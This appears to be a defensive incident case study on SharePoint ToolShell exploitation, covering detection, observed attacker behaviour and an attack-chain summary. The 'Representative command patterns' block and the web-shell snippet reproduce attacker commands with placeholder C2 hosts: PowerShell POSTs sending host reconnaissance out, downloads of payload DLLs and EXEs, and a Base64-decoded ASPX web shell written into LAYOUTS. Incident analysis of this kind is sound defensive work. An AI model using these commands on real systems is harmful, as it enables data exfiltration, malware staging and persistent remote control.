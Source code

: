 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.
- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed behaviors:
- **Recon & data exfil** via `Invoke-WebRequest` **HTTP POST** to external hosts:
    
    - `$(whoami /all)`, `$(systeminfo)`, `$(tasklist /v)`, `$(netstat -ano)`, directory listings of SharePoint and user profile paths.
        
- **Web app & SharePoint enumeration**:
    
    - `appcmd list app /text:[path='/'].physicalPath`, listings under `C:\inetpub\wwwroot\wss\VirtualDirectories\...` and `...\App_GlobalResources`.
        
- **Artifact download & drop** (cleartext HTTP):
    
    - EXE/DLLs fetched from external IPs/domains and saved under `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\...` and `C:\ProgramData\...`.
        
- **Potential web shell deployment**:
    
    - **Decoded `-EncodedCommand` summary:** writes a **Base64-encoded ASPX file** to SharePoint **LAYOUTS** path as `spinstall0.aspx`:
```
$destinationFile = "C:\PROGRA~1\COMMON~1\MICROS~1\WEBSER~1\16\TEMPLATE\LAYOUTS\spinstall0.aspx"
$decodedContent = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($base64String))
$decodedContent | Set-Content -Path $destinationFile
```
→ This is consistent with **ToolShell-style web shell write** into a globally served SharePoint directory.
- **Other signs**: creation of `0.css` in `App_GlobalResources` (write test / file-drop), and plaintext download of binaries (`SPDesk.exe`, `SPlog.exe`, `log.dll`, `Product.Wsc.dll`, `nvsmartmax64.dll`, `txmlutil.dll`).

#### Representative command patterns:
 ``` 
# Exfil / recon
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami /all)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(netstat -ano)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\inetpub\wwwroot\wss\VirtualDirectories)

# Artifact downloads
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/asx -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\WebTempDir\SPlog.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3   -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# SharePoint/IIS context
w3wp.exe -ap "SharePointWebAppPools" ...
cmd.exe /c C:\Windows\System32\inetsrv\appcmd.exe list app /text:[path='/'].physicalPath

# EncodedCommand (web shell write to LAYOUTS)
cmd.exe /c powershell -EncodedCommand <BASE64>   # decodes and writes spinstall0.aspx to LAYOUTS

 ```


## Analysis Summary
- The activity observed is consistent with post-exploitation of a SharePoint vulnerability. Adversaries leveraged `w3wp.exe` to spawn PowerShell and `cmd.exe` for:

- **Reconnaissance & Exfiltration** – collecting host details (`systeminfo`, `whoami`, `tasklist`, `netstat`) and directory listings, then exfiltrating results via cleartext HTTP POST to external C2 servers.
    
- **File Write & Payload Delivery** – downloading executables and DLLs into service account directories (`AppData\Local`, `ProgramData`), indicating attempts at persistence or staging.
    
- **Web Shell Deployment** – a Base64-encoded PowerShell payload decoded and wrote an ASPX file (`spinstall0.aspx`) into the SharePoint `LAYOUTS` directory, providing an accessible web shell for remote control.
    
- **SharePoint/IIS Enumeration** – commands targeting `appcmd.exe` and SharePoint resource directories, suggesting knowledge of SharePoint application structure.
    

These behaviors demonstrate a multi-stage attack chain: 
> **Initial Compromise** → **Host Reconnaissance** → **Data Exfiltration** → **Payload Deployment** → **Web Shell Installation for Persistence and Further Exploitation**.

